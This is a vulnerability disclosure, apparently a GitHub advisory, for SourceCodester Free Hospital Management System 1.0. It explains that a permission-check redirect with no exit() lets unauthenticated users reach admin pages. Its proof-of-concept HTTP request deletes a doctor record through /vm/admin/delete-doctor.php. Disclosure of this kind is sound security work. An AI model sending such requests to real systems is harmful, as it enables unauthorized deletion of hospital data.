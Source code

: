 # SourceCodester Free Hospital Management System for Small Practices 1.0 has a vertical privilege escalation vulnerability
## Software
- Software: Free Hospital Management System for Small Practices 1.0
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Vulnerability Type: Vertical Privilege Escalation
- Attack Type: Remote
- Vendor of Product: Sourcecodester
## Description
SourceCodester Free Hospital Management System for Small Practices 1.0 has a vertical privilege escalation vulnerability, allowing attackers to intercept redirects and gain unauthorized access to the administrative backend with system administrator privileges.The developer implemented a redirect in the permission check without using the `die()` or `exit()` functions to terminate the program execution, which resulted in vertical privilege escalation.
## Vulnerability Code
Here is an example of how an attacker can exploit the vertical privilege escalation vulnerability in the /vm/admin/delete-doctor.php file to delete information of any doctor. The vulnerable code is as follows:
![Vulnerability Code](https://github.com/Yesec/Free-Hospital-Management-System-for-Small-Practices/assets/19534204/021258a2-b971-4102-bf20-548520b7d576)

## POC
```http
GET /vm/admin/delete-doctor.php?id=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close


```
